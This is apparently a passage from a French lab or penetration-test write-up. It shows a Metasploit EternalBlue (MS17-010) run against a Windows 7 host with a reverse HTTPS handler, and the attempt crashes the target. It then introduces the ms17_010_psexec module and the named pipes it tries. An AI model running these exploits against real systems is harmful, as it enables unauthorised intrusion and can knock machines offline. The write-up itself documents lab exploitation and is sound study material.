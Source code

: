 ```plain
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The local listener hostname
   LPORT     443              yes       The local listener port
   LURI                       no        The HTTP Path

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started HTTPS reverse handler on https://10.254.0.29:443
[*] 10.1.1.15:445 - Connecting to target for exploitation.
[+] 10.1.1.15:445 - Connection established for exploitation.
[+] 10.1.1.15:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.1.1.15:445 - CORE raw buffer dump (42 bytes)
[*] 10.1.1.15:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.1.1.15:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.1.1.15:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.1.1.15:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.1.1.15:445 - Trying exploit with 12 Groom Allocations.
[*] 10.1.1.15:445 - Sending all but last fragment of exploit packet
[*] 10.1.1.15:445 - Starting non-paged pool grooming
[+] 10.1.1.15:445 - Sending SMBv2 buffers
[+] 10.1.1.15:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.1.1.15:445 - Sending final SMBv2 buffers.
[*] 10.1.1.15:445 - Sending last fragment of exploit packet!
[*] 10.1.1.15:445 - Receiving response from exploit packet
[+] 10.1.1.15:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.1.1.15:445 - Sending egg to corrupted connection.
[*] 10.1.1.15:445 - Triggering free of corrupted buffer.
[-] 10.1.1.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.1.1.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.1.1.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.1.1.15:445 - Connecting to target for exploitation.
[-] 10.1.1.15:445 - Rex::ConnectionTimeout: The connection timed out (10.1.1.15:445).
[*] Exploit completed, but no session was created.
```

Ici on voit que l'exploitation semble bien partir mais fait finalement crasher la machine (BSOD, la machine ne répond plus au ping).  

Epsilon
-------

Un autre exploit est disponible dans le framework Metasploit qui s'appelle *ms17\_010\_psexec*. Cet exploit a besoin d'accéder à un *named pipe* et *Metasploit* va en tenter différents pour l'exploitation (*netlogon*, *lsarpc*, *samr*, *browser*, etc).  
